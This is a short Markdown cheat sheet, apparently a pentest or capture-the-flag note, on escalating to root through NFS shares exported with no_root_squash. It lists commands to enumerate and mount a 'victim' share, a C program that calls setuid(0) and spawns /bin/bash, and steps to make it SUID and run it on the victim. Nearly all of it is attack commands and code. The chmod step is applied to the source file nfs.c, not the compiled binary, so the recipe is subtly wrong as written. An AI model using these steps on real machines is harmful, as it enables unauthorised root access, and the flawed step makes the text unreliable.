

## NFS

### stapsgewijs

#### 1. Getting the overview of all NFS's

```
cat /etc/exports
```

**There needs to be the no_root_squash option in these routes**

*Example:*

```
$ cat /etc/exports
# /etc/exports: the access control list for filesystems which may be exported
#               to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
/home/backup *(rw,sync,insecure,no_root_squash,no_subtree_check)
/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)
/home/ubuntu/sharedfolder *(rw,sync,insecure,no_root_squash,no_subtree_check)

```

#### 2. Look for mountable shares from the attacking machine to the victim.

```
showmount -e <victimip>
```



#### 3. Create a file and write to the victim system:

```
mkdir /tmp/attack
```

```
mount -o rw 10.10.80.157:/<dirnametowriteto> /tmp/attack
```

#### 4. Create an executable binary in the attackermachine and run in victim machine:

1. 
```
nano nfs.c
```

2. 
```
#include <unistd.h>
#include <stdlib.h>

int main() {
    setgid(0);
    setuid(0);
    system("/bin/bash");
    return 0;
}
```

3. 

```
gcc --static nfs.c -o nfs -w
```

```
chmod +x nfs.c
chmod +s nfs.c
```

4. on victim machine:

```
cd /<sharedfilemount>
./nfs
```